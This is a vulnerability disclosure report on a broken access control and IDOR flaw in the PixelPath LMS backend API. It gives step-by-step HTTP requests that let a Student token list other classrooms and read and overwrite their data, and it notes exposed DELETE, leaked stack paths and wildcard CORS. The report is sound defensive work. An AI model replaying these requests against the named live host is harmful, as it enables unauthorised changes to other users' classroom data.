<!-- Route refresh marker -->

## 1. Summary

A critical broken access control vulnerability was identified in the PixelPath LMS backend API.

The vulnerability exists in the backend API authorization controls, specifically in the classroom-related endpoints used by the LMS frontend.

An authenticated user with the **Student** role can:

- Enumerate classrooms outside their own enrollment.
- Directly access another classroom object by classroom ID.
- Send an unauthorized `PUT` request to another classroom.
- Modify metadata of a classroom they are not enrolled in.
- Verify the unauthorized modification through a follow-up `GET` request.

During testing authorized by the lecturer, a Student account belonging to `4CS1_PNJ_2026` successfully modified the description of `4CS2_2026`, a different classroom. The modified value appeared in the API response and was restored immediately after evidence was captured.

## 2. Severity

**Severity: Critical**

A low-privileged Student user can perform unauthorized write operations against classroom objects belonging to other classes.

This issue includes:

- Broken Access Control
- Insecure Direct Object Reference, or IDOR
- Broken Function-Level Authorization
- Horizontal Privilege Escalation
- Unauthorized Cross-Classroom Modification

## 3. Affected Hosts

The tested LMS is available at https://pixelpath.ccit-ftui.com. During normal use, the frontend application communicates with the backend API at https://pixelpath-api.ccit-ftui.com. The vulnerability exists in the backend API authorization controls, specifically on the /api/classrooms endpoints used by the LMS frontend

### Frontend Application

```text
https://pixelpath.ccit-ftui.com
```

### Affected Backend API

```text
https://pixelpath-api.ccit-ftui.com
```

## 4. Affected Endpoints

### Confirmed Affected Endpoints

```http
GET /api/classrooms
GET /api/classrooms/{classroom_id}
PUT /api/classrooms/{classroom_id}
```

### Observed but Not Destructively Tested

```http
DELETE /api/classrooms/{classroom_id}
```

`DELETE` was not tested against a real classroom object to avoid destructive impact.

## 5. Tester Account Context

The test was performed using an authenticated Student account.

Relevant role information:

```json
{
  "role_name": "Student",
  "role_code": "student",
  "role_id_decrypted": 2
}
```

The tester's own classroom:

```text
Classroom Name: 4CS1_PNJ_2026
Classroom ID: gNUnb........
Class Group ID: 477
Program: Information Technology in Cyber Security
```

The target classroom used for authorized cross-classroom testing:

```text
Classroom Name: 4CS2_2026
Classroom ID: YDJrZ.......
Class Group ID: 478
Program: Information Technology in Cyber Security
```

---

# 6. Proof of Concept

## 6.1 Student Role Confirmation

The authenticated profile endpoint confirms that the account has the Student role.

### Request

```http
GET /api/user/me HTTP/2
Host: pixelpath-api.ccit-ftui.com
Authorization: Bearer [REDACTED_STUDENT_TOKEN]
Accept: application/json
```

### Relevant Response

```json
{
  "status": 200,
  "message": "User Profile Retrieved Successfully",
  "data": {
    "role_name": "Student",
    "role_code": "student",
    "role_id_decrypted": 2
  }
}
```



This confirms that the test was performed using a low-privileged Student account, not an administrator, lecturer, mentor, or faculty account.

---

## 6.2 Normal Scoped Classroom Request

When the frontend includes the `my_classroom_user_id` filter, the response only returns the Student's own classroom.

### Request

```http
GET /api/classrooms?per_page=50&page=1&my_classroom_user_id=[STUDENT_USER_ID]&workstate_id=9 HTTP/2
Host: pixelpath-api.ccit-ftui.com
Authorization: Bearer [REDACTED_STUDENT_TOKEN]
Accept: application/json
```

### Expected Frontend Behavior

The response only includes the tester's own classroom:

```text
4CS1_PNJ_2026
```



This shows the intended frontend behavior: the Student normally sees only their own classroom.

---

## 6.3 Removing Client-Controlled Filter Exposes Other Classrooms

The classroom listing endpoint uses a client-controlled query parameter:

```text
my_classroom_user_id
```

When this parameter is removed, the API returns classrooms outside the Student's own enrollment.

### Request

```http
GET /api/classrooms?per_page=50&page=1&workstate_id=9 HTTP/2
Host: pixelpath-api.ccit-ftui.com
Authorization: Bearer [REDACTED_STUDENT_TOKEN]
Accept: application/json
```

### Response Example

```json
{
  "id": "YDJ...........",
  "classroom_course_id": "P-........",
  "name": "4CS2_2026",
  "room_code": "4CS2_2026",
  "class_group_id": 478,
  "class_group_name": "4CS2_2026",
  "school_year_id": 5,
  "school_year_name": "2025/2026",
  "program_name": "Information Technology in Cyber Security",
  "workstate_id": 9,
  "workstate_name": "Open",
  "total_classroom_participants": 25,
  "thumbnail": "[REDACTED_PRESIGNED_URL]",
  "header_image": "[REDACTED_PRESIGNED_URL]"
}
```



Full response leak the whole id courses, i swear to god....

### Expected Behavior

```http
HTTP/2 403 Forbidden
```

Alternatively, the API should only return classrooms belonging to the authenticated Student.

### Actual Behavior

```http
HTTP/2 200 OK
```

The API returns classrooms outside the authenticated Student's enrollment.

### Security Issue

The backend appears to rely on an optional client-side filter instead of enforcing authorization based on the authenticated user server-side.

---

## 6.4 Direct Object Access to Another Classroom

After obtaining another classroom ID from the unfiltered classroom list, the Student user could directly access that classroom object.

### Request

```http
GET /api/classrooms/[CLASS_ID] HTTP/2
Host: pixelpath-api.ccit-ftui.com
Authorization: Bearer [REDACTED_STUDENT_TOKEN]
Accept: application/json
```

### Response

```http
HTTP/2 200 OK
Content-Type: application/json
Access-Control-Allow-Origin: *
```



### Expected Behavior

```http
HTTP/2 403 Forbidden
```

### Actual Behavior

```http
HTTP/2 200 OK
```

### Security Issue

A Student from `4CS1_PNJ_2026` should not be able to directly access `4CS2_2026` unless they are enrolled in that classroom or explicitly authorized.

---

## 6.5 Unauthenticated PUT Is Blocked

An unauthenticated PUT request is blocked correctly.

### Request Without Authorization

```http
PUT /api/classrooms/[CLASS_ID] HTTP/2
Host: pixelpath-api.ccit-ftui.com
Content-Type: application/json
Accept: application/json

{}
```

### Response

```http
HTTP/2 401 Unauthorized
```

```json
{
  "message": "Unauthenticated."
}
```



This confirms that authentication is required. The issue is not missing authentication, but missing authorization for authenticated Student users.

---

## 6.6 Student PUT Reaches Update Validation

The same endpoint with a Student token reaches update validation instead of being blocked with `403 Forbidden`.

### Request With Student Token

```http
PUT /api/classrooms/[CLASS_ID] HTTP/2
Host: pixelpath-api.ccit-ftui.com
Authorization: Bearer [REDACTED_STUDENT_TOKEN]
Content-Type: application/json
Accept: application/json

{}
```

### Response

```http
HTTP/2 422 Unprocessable Entity
```

```json
{
  "message": "Nama kelas wajib diisi. (and 1 more error)",
  "errors": {
    "name": ["Nama kelas wajib diisi."],
    "school_year_id": ["The school year id field is required."]
  }
}
```



### Security Issue

An unauthorized Student user should receive:

```http
HTTP/2 403 Forbidden
```

before reaching validation logic. The `422` response shows that the Student token is allowed to reach the classroom update handler.

---

## 6.7 Confirmed Unauthorized Cross-Classroom Modification

With lecturer approval, a controlled non-destructive modification was performed against `4CS2_2026`, a classroom outside the tester's own enrollment.

The test added a temporary marker to the classroom description:

```text
[SECURITY TEST - AUTHORIZED BY LECTURER]
```

### Request

```http
PUT /api/classrooms/[CLASS_ID] HTTP/2
Host: pixelpath-api.ccit-ftui.com
Authorization: Bearer [REDACTED_STUDENT_TOKEN]
Content-Type: application/json
Accept: application/json

{
  "name": "4CS2_2026",
  "school_year_id": 5,
  "description": "Diampu oleh [SECURITY TEST - AUTHORIZED BY LECTURER]",
  "room_code": "4CS2_2026"
}
```

### Response

```http
HTTP/2 200 OK
```

```json
{
  "status": "success",
  "message": "Classroom Updated Successfully",
  "code": 200
}
```



And I also did the test using another method and proved it on the frontend (in my own
class)



### Security Issue

The API allowed a Student user to modify another classroom's metadata.

Expected behavior:

```http
HTTP/2 403 Forbidden
```

Actual behavior:

```http
HTTP/2 200 OK
```

---

## 6.8 Verification of Unauthorized Modification

A follow-up GET request confirmed that the classroom description was modified.

### Request

```http
GET /api/classrooms/[CLASS_ID] HTTP/2
Host: pixelpath-api.ccit-ftui.com
Authorization: Bearer [REDACTED_STUDENT_TOKEN]
Accept: application/json
```

### Response







isn't inspect btw....

This confirms real unauthorized write impact. The Student account did not just reach validation. It successfully modified another classroom object.

---

## 6.9 Restoration

The original classroom description was restored immediately after evidence was captured.

### Restore Request

```http
PUT /api/classrooms/[CLASS_ID] HTTP/2
Host: pixelpath-api.ccit-ftui.com
Authorization: Bearer [REDACTED_STUDENT_TOKEN]
Content-Type: application/json
Accept: application/json

{
  "name": "4CS2_2026",
  "school_year_id": 5,
  "description": "Diampu oleh\r\n1. ......, S.T.\r\n2. ........., S.Kom., M.T.",
  "room_code": "4CS2_2026"
}
```



### Final Verification Request

```http
GET /api/classrooms/[CLASS_ID] HTTP/2
Host: pixelpath-api.ccit-ftui.com
Authorization: Bearer [REDACTED_STUDENT_TOKEN]
Accept: application/json
```

### Final Verification Response

```json
{
  "data": {
    "id": "YDJrZ.....................",
    "name": "4CS2_2026",
    "description": "Diampu oleh\r\n1. ..............., S.T.\r\n2. .............., S.Kom., M.T.",
    "room_code": "4CS2_2026",
    "class_group_id": ...,
    "class_group_name": "4CS2_2026",
    "school_year_id": 5
  }
}
```



The test was performed responsibly. The temporary marker was removed and the original classroom description was restored.

---

# 7. Additional Findings and Observations

## 7.1 Partial PUT Can Null Omitted Fields

During earlier testing on the tester's own classroom, a partial PUT request caused omitted fields such as `description` and `room_code` to become `null`.

### Request

```http
PUT /api/classrooms/[CLASS_ID] HTTP/2
Host: pixelpath-api.ccit-ftui.com
Authorization: Bearer [REDACTED_STUDENT_TOKEN]
Content-Type: application/json
Accept: application/json

{
  "name": "4CS1_PNJ_2026",
  "school_year_id": 5
}
```

### Response

```json
{
  "status": "success",
  "message": "Classroom Updated Successfully",
  "code": 200
}
```


### Follow-Up Response

```json
{
  "data": {
    "name": "4CS1_PNJ_2026",
    "description": null,
    "room_code": null
  }
}
```

This increases the impact of unauthorized PUT access because a malicious or careless request can erase classroom metadata.

---

## 7.2 Method Discovery

A PATCH request returned:

```http
HTTP/2 405 Method Not Allowed
Allow: GET, HEAD, PUT, DELETE
```

This revealed that the classroom route supports:

```text
GET
HEAD
PUT
DELETE
```

`DELETE` was not tested on a real classroom object to avoid destructive impact.

---

## 7.3 Error Handling Issue

Invalid routes and unsupported methods returned detailed Laravel/Symfony error information, including internal server paths such as:

```text
/www/wwwroot/pixelpath-api.ccit-ftui.com/vendor/laravel/framework/...
```

This indicates that detailed production error traces may be exposed.

---

## 7.4 CORS Configuration

Several responses included:

```http
Access-Control-Allow-Origin: *
```

This should be reviewed, especially if any endpoints rely on cookie-based authentication or allow credentialed requests.

---

# 8. Impact

Confirmed impact:

- Student can enumerate classrooms outside their enrollment.
- Student can directly access another classroom object.
- Student can reach classroom update functionality.
- Student can modify another classroom's metadata using PUT.
- Student can erase existing fields through partial PUT requests.

Potential impact:

- Unauthorized modification of classroom names.
- Unauthorized modification of classroom descriptions.
- Unauthorized modification of room codes.
- Disruption of academic or classroom information shown to students or lecturers.
- Possible destructive deletion if DELETE is similarly unprotected.
- Possible unauthorized modification of other classroom-related resources if similar authorization flaws exist elsewhere.

---

# 9. Root Cause

The API does not consistently enforce authorization server-side.

Main root causes:

1. The classroom listing endpoint relies on optional client-controlled filters.
2. Direct object access does not verify whether the authenticated Student belongs to the requested classroom.
3. `PUT /api/classrooms/{id}` allows Student users to modify classroom objects.
4. Authorization checks are missing or insufficient on classroom update functionality.
5. Validation appears to occur before proper authorization.
6. PUT behavior nulls omitted fields, increasing the risk of unintended data loss.

---

# 10. Recommended Remediation

1. Derive the authenticated user ID and role from the token server-side.
2. Do not trust `my_classroom_user_id` from the client.
